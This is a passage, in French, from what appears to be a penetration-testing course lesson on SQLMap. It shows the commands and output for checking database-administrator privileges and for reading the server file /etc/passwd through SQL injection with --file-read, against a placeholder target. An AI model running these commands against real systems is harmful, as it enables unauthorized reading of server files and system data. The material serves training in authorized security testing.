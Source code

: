Comme nous pouvons le voir, si nous testons cela sur l'un des exercices précédents, nous obtenons `current user is DBA: False`, ce qui signifie que nous n'avons pas d'accès DBA. Si nous essayions de lire un fichier à l'aide de SQLMap, nous obtiendrions quelque chose comme :

```
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved

```

Pour tester l'exploitation du système d'exploitation, essayons un exercice dans lequel nous disposons des privilèges DBA, comme le montrent les questions à la fin de cette section :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/

```

Nous voyons que cette fois nous obtenons `current user is DBA: True`, ce qui signifie que nous pouvons avoir le privilège de lire les fichiers locaux.

* * * * *

Lecture de fichiers locaux
--------------------------

Au lieu d'injecter manuellement la ligne ci-dessus via SQLi, SQLMap facilite la lecture des fichiers locaux avec l' `--file-read`option :

```
dsgsec@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
```